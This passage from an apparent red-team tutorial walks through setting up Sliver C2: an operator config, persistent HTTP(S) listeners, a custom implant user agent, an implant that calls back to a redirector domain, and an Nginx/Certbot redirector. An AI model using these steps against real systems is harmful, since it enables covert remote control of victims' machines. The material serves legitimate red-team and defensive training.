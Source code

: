 Next, generate an operator config to connect to the Sliver server. This can be done by running `sliver-server operator --name [name] --lhost [pub ip] --save [name].cfg --lport [sliver port]`. Copy this file to the host you'd like to use as a Sliver client, and drop it in `/home/[user]/.sliver-client/configs`. Test that you're able to connect with the `sliver` command. If this doesn't work; there's likely an issue with either your firewall configuration, or Oracle Cloud ingress rules.

![Successful Sliver Connection](sliver-connection.png)

From the Sliver console, we need to start some listeners for the implants to communicate with. Run `https -p` and `http -p` to start persistent HTTP(s) listeners. If you run `jobs` you should see the two listeners present.

![Sliver Jobs](sliver-listeners.png)

Now there should be a `/root/.sliver/configs/http-c2.json` file on the Sliver server, this dictates how implants will communicate. We're going to edit the `user-agent` string to be a custom value. The user agent is the string identifying the web client making a request, ex. `Chrome/5.0 (erm; Windows 11; super legit user agent string)`, we'll use this custom value later when configuring the redirector. Save the config file and reload Sliver with `systemctl reload sliver`

Lastly, from the Sliver console generate an HTTP implant to test our configuration later with `generate --http api.websitename.com/some/path --os [windows/linux] --arch amd64 --skip-symbols`. This implant will call out to the Nginx server on `/some/path` using the custom user agent we defined in the Sliver config.

### Nginx

First, install Nginx and Certbot with `sudo apt install nginx certbot python3-certbot-nginx`, Certbot will handle certificates for the redirector allowing HTTPS traffic. Have Certbot set up certificates with `sudo certbot --nginx -d api.websitename.com`. Next, we'll configure nginx to serve as a reverse proxy by creating `/etc/nginx/sites-available/api.sitename.com` and configuring it as shown below.
